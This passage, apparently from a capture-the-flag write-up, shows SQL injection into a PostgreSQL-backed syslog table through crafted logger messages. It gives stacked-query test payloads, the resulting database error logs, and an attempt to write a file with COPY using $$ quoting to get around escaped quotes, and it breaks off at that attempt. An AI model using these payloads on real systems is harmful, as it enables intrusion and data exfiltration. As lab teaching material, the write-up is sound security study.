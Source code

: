 Now I want to test for stacked queries, which is the ability to add a `;` and then another statement in the same statement. I’ll run two queries:

```

roy@zetta:/var/log/postgresql$ logger -p local7.info "test', null); select * from syslog_lines;-- -"
roy@zetta:/var/log/postgresql$ logger -p local7.info "test', null); select * from notatable; -- -"

```

The first one doesn’t generate any error, but the second one does because “notatable” does not exist:

```

2019-09-01 13:54:43.680 EDT [15533] postgres@syslog ERROR:  relation "notatable" does not exist at character 95
2019-09-01 13:54:43.680 EDT [15533] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' test\', null); select * from notatable; -- -','2019-09-01 17:54:43')
2019-09-01 13:54:43.686 EDT [15537] postgres@syslog ERROR:  relation "notatable" does not exist at character 95
2019-09-01 13:54:43.686 EDT [15537] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' test\', null); select * from notatable; -- -','2019-09-01 17:54:43')
2019-09-01 13:54:43.691 EDT [15538] postgres@syslog WARNING:  there is no transaction in progress

```

So stacked queries are enabled.

The last thing I want to check is if I can write a file. I start with this query:

```

roy@zetta:/var/log/postgresql$ logger -p local7.info "sd',null); COPY (SELECT * from syslog_lines) To '/tmp/output.csv' With CSV;-- -"

```

But it returns an error:

```

2019-09-01 14:03:21.069 EDT [15659] postgres@syslog ERROR:  syntax error at or near "\" at character 115
2019-09-01 14:03:21.069 EDT [15659] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' sd\',null); COPY (SELECT * from syslog_lines) To \'/tmp/output.csv\' With CSV;-- -','2019-09-01 18:03:21')

```

The escaped quotes outside of `' '` are causing issues. I then tried without `''` around the filename, but it errored as well. Some googling for “postgres quote alternative” led me to the [Postgres Lexical Structure](https://www.postgresql.org/docs/9.1/sql-syntax-lexical.html), where I see that `$$` is an alternative for single quote. I try that:

```

roy@zetta:/var/log/postgresql$ logger -p local7.info "sd',null); COPY (SELECT * from syslog_lines) To $$/tmp/output.csv$$ With CSV;-- -"

```
